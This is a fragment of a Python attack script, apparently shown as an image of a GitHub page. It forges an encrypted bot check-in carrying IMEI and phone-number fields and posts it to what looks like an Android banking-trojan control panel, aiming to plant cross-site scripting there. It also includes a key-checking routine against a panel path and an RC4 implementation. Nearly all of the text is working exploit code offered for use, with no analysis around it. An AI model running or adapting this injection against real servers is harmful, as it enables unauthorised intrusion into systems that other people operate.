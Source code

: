 ```python
  #payload = encrypt(imei+":"+phoneNum+":"+version+":"+country+":"+bank+":"+model+":"+versionApk+":"+av+":"+iconCard+":"+iconInj, key) 
  payload = encrypt(imei+":"+phoneNum+":"+version, key) 
  data = { "p" : payload }
  r = requests.post(url, data=data)
  txt = r.text.replace("<tag>", "").replace("</tag>", "")
  print("Payload: {}".format(payload))
  if "|OK|" in decrypt(txt):
    print("[+] Injected XSS... Should trigger soon ;)")
  else:
    print("[-] Failed to inject XSS...")


def crackKey(txt, hasToInclude):
  # Implement it if you want
  # but I recommend doing that in C/Rust/Go whatever
  # and not doing it with python....
  return False 

# Check if the key is valid 
def checkKey(target):
  url = target + "/o1o/a11.php"
  hasToInclude = "<html><body style='background:#000'><center>"

  r = requests.get(url)
  txt = r.text.replace("<tag>","").replace("</tag>", "")
  if hasToInclude in decrypt(txt):
    return True
  else:
    if crackKey(txt, hasToInclude):
      return True
  return False


def KSA(key):
  keylength = len(key)

  S = range(256)

  j = 0
  for i in range(256):
    j = (j + S[i] + key[i % keylength]) % 256
    S[i], S[j] = S[j], S[i]  # swap

  return S


def PRGA(S):
  i = 0
  j = 0
  while True:
    i = (i + 1) % 256
    j = (j + S[i]) % 256
    S[i], S[j] = S[j], S[i] # swap

    K = S[(S[i] + S[j]) % 256]
    yield K


def RC4(key):
  S = KSA(key)
  return PRGA(S)

```